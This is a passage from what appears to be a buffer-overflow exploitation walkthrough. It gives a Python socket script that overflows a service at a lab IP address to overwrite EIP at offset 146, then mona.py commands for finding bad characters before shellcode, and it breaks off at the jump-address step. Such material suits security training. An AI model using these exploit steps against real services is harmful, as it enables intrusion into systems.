 **Python Script**:

```python
import socket

ip = "172.16.2.125"
port = 31337

offset = 146
overflow = "A" * offset
retn = "BBBB"
padding = ""
payload = ""
postfix = ""

buffer = overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending buffer to crash the application...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Running this script should result in the EIP being overwritten with `42424242`, confirming the offset.

#### Bad Character Check:

Identifying bad characters is critical before generating shellcode. Bad characters can terminate strings or otherwise disrupt the execution of your payload. Start by generating a full byte array:

```bash
!mona bytearray -b "\x00"
```

Send this byte array and compare

 it with the in-memory copy to find bad characters:

```bash
!mona compare -f C:\Path\To\ByteArray.bin -a [Address]
```

Continue excluding bad characters until none remain. For example, if `\x00` and `\x0a` are bad, regenerate the byte array excluding these:

```bash
!mona bytearray -b "\x00\x0a"
```

#### Find the Jump Address:
